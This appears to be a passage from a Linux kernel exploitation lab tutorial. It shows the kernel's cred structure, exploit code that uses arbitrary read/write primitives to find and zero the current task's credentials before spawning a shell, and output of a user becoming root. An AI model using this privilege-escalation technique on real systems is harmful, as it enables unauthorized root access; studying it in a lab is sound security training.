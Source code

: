 ~~~c
123  	kuid_t		euid;		/* effective UID of the task */
124  	kgid_t		egid;		/* effective GID of the task */
125  	kuid_t		fsuid;		/* UID for VFS ops */
126  	kgid_t		fsgid;		/* GID for VFS ops */
127  	unsigned	securebits;	/* SUID-less security management */
128  	kernel_cap_t	cap_inheritable; /* caps our children can inherit */
129  	kernel_cap_t	cap_permitted;	/* caps we're permitted */
130  	kernel_cap_t	cap_effective;	/* caps we can actually use */
131  	kernel_cap_t	cap_bset;	/* capability bounding set */
132  	kernel_cap_t	cap_ambient;	/* Ambient capability set */
133  #ifdef CONFIG_KEYS
134  	unsigned char	jit_keyring;	/* default keyring to attach requested
~~~

~~~c
  unsigned long addr_cred = 0;
  addr_cred |= AAR32(addr - 8);
  addr_cred |= (unsigned long)AAR32(addr - 4) << 32;
  printf("[+] current->cred = 0x%016lx\n", addr_cred);

  // 実効IDの上書き
  for (int i = 1; i < 9; i++) {
    AAW32(addr_cred + i*4, 0); // id=0(root)
  }

  puts("[+] pwned!");
  system("/bin/sh");
~~~

~~~sh
/ $ id
uid=1337 gid=1337 groups=1337
$ ./heapbof-cred
[+] kbase = 0xffffffff81000000
[+] g_buf = 0xffff8880030f7800
searching... 0xffff888002100000
searching... 0xffff888002200000
searching... 0xffff888002300000
searching... 0xffff888002400000
searching... 0xffff888002500000
searching... 0xffff888002600000
searching... 0xffff888002700000
searching... 0xffff888002800000
searching... 0xffff888002900000
searching... 0xffff888002a00000
searching... 0xffff888002b00000
searching... 0xffff888002c00000
searching... 0xffff888002d00000
[+] Found 'comm' at 0xffff888002deca90
[+] current->cred = 0xffff888002f74d80
[+] pwned!
/ # id
uid=0(root) gid=0(root) groups=1337
~~~

See: [src/06.heapbof-cred/heapbof-cred.c](https://github.com/cpey/pawnyable/blob/main/LK01-2/src/06.heapbof-cred/heapbof-cred.c)
